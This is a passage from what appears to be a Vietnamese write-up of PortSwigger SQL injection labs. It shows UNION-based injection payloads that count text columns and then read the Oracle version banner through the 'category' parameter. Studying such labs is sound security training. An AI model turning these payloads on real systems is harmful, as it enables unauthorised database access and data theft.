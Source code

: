 => Tìm được tham số `category=Gifts`, thử thay `Gifts` thành payload xác định số cột trong bảng và cột nào chứa dữ liệu kiểu text:

    '+UNION+SELECT+'abc','def'+FROM+dual--

![img](https://github.com/DucThinh47/PortSwigger/blob/main/SQL-injection/images/image212.png?raw=true)

=> Truy vấn trả về 2 cột đều có kiểu dữ liệu là text, xác định được CSDL thuộc Oracle, sử dụng payload sau để in ra version:

    '+UNION+SELECT+BANNER,+NULL+FROM+v$version--

![img](https://github.com/DucThinh47/PortSwigger/blob/main/SQL-injection/images/image213.png?raw=true)

